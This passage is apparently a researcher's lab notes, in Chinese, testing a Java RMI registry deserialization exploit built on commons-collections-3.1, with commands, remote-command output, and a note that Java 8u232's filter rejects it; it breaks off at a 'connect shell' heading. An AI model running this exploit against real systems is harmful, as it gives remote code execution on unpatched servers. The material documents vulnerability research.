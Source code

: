 14.4.1) 测试1

在test1目录执行:

python3 -m http.server -b 192.168.65.23 8080

在test2目录执行:

java_8_40 \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
RMIRegistryExploitWithHashtable2 192.168.65.23 1099 \
http://192.168.65.23:8080/ DoSomething 1 \
"ps -f -o pid,user,args"

在客户端看到类似这样的输出:

[
   PID USER     COMMAND
 19439 scz      -bash
 25558 scz       \_ java -cp commons-collections-3.1.jar:. RMIRegistryExploitWithHashtable2 192.168.65.23 1099 http://192.168.65.23:8080/ DoSomething 1 ps -f -o pid,user,args
  5238 scz      -bash
 24732 scz       \_ java_8_40 -Djava.rmi.server.hostname=192.168.65.23 -cp commons-collections-3.1.jar:. RMIRegistryServer 1099
 25568 scz           \_ ps -f -o pid,user,args
  3594 scz      -bash
 24731 scz       \_ python3 -m http.server -b 192.168.65.23 8080
]

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
RMIRegistryExploitWithHashtable2 192.168.65.23 1099 \
http://192.168.65.23:8080/ DoSomething 1 \
"ls -l nonexist"

在客户端看到类似这样的输出:

[
ls: cannot access nonexist: No such file or directory
]

说明stderr确实被转向到stdout了。

如果用8u232启动RMIRegistryServer，客户端看到的是:

filter status: REJECTED

14.4.2) 测试2(connect shell)

在test0目录执行:
